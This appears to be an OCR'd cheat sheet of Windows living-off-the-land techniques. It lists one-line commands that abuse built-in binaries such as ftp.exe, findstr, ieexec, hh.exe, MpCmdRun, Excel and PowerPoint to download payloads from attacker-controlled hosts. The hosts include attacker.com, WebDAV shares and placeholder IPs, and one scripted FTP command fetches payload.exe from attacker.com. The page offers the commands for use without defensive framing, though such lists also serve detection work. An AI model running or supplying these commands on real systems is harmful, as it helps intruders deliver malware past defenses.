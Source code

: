 Findstr.exe

```
findstr /V /L W3AllLov3DonaldTrump \\webdavserver\folder\file.exe > c:\ADS\file.exe
```

Ftp.exe

```
cmd.exe /c "@echo open attacker.com 21>ftp.txt&@echo USER attacker>>ftp.txt&@echo PASS PaSsWoRd>>ftp.txt&@echo binary>>ftp.txt&@echo GET /payload.exe>>ftp.txt&@echo quit>>ftp.txt&@ftp -s:ftp.txt -v"
```

GfxDownloadWrapper.exe

```
C:\Windows\System32\DriverStore\FileRepository\igdlh64.inf_amd64_[0-9]+\GfxDownloadWrapper.exe "URL" "DESTINATION FILE"
```

Hh.exe

```
HH.exe http://some.url/script.ps1
```

Ieexec.exe

```
ieexec.exe http://x.x.x.x:8080/bypass.exe
```

Makecab.exe

```
makecab \\webdavserver\webdav\file.exe C:\Folder\file.cab
```

MpCmdRun.exe

```
MpCmdRun.exe -DownloadFile -url  -path  //Windows Defender executable
```

Replace.exe

```
replace.exe \\webdav.host.com\foo\bar.exe c:\outdir /A
```

Excel.exe

```
Excel.exe http://192.168.1.10/TeamsAddinLoader.dll
```

Powerpnt.exe

```
Powerpnt.exe "http://192.168.1.10/TeamsAddinLoader.dll"
```

Squirrel.exe

```
squirrel.exe --download [url to package]
```
